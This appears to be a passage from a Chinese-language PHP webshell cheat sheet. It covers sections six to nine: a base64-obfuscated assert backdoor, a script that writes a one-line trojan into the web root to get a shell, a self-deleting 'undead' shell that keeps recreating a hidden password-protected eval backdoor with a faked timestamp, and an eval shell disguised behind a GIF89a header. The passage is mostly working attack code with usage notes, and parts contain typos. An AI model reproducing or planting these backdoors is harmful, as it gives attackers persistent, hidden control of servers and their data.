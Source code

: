 ##### 六、base64加解密
```php
<?php
	$a=base_decode(YXNzZXJ0);
	$b=$a(base64_decode($_POST['cmd']));
?>
```

##### 七、写入木马
```php
<?php
	if(isset($_POST['filename']))
	{
		$d='data';
		$$d=$_POST['text'];  //$data
		$f='fp';
		$$f=fopen($_POST['filename'],'wb');  //$fp
		echo fwrite($fp,$data):"save success":"save fail";
		fclose($fp);
	}
?>
```

<font style="color:rgb(77, 77, 77);">这个代码通过在网站根目录下写一句话木马的方法，然后再去访问木马，从而getshell。</font>

##### <font style="color:rgb(77, 77, 77);">八、不死马</font>
```php
<?php
	ignore_user_abort(true);  //设置与客户机断开是否会终止脚本的执行，true则不会
	set_time_limit(0);  //如果为零说明永久执行直到程序结束
	unlink(__FILE__);  //调用unlink()的时候，文件还是存在的，只是目录里找不到该文件了，但是已经打开这个文件的进程可以正常读写
	$file='./.index1.php';
	$code='<?php
		if(md5($_POST["pass"])=="xxxxxxxxxx")  //给木马设置密码，防止他人使用
		{
			@eval($_POST["cmd"]);
		}?>';  
	while(1){
		file_put_contents($file,$code);
		system('touch -m -d "2018-12-01 9:10:12" .index1.php');  //设置文件的编辑时间
	usleep(5000);
	}
?>
```

<font style="color:rgb(77, 77, 77);">实测时发现设置文件编辑时间那里会报错，可以选择把那一句删掉。</font>  
<font style="color:rgb(77, 77, 77);">用法：</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">?pass=shyshy&cmd=phpinfo();</font>`

##### 九、修改头文件
```plain
GIF89a
<script language="php">eval($_POST['shell']);</script> 
```
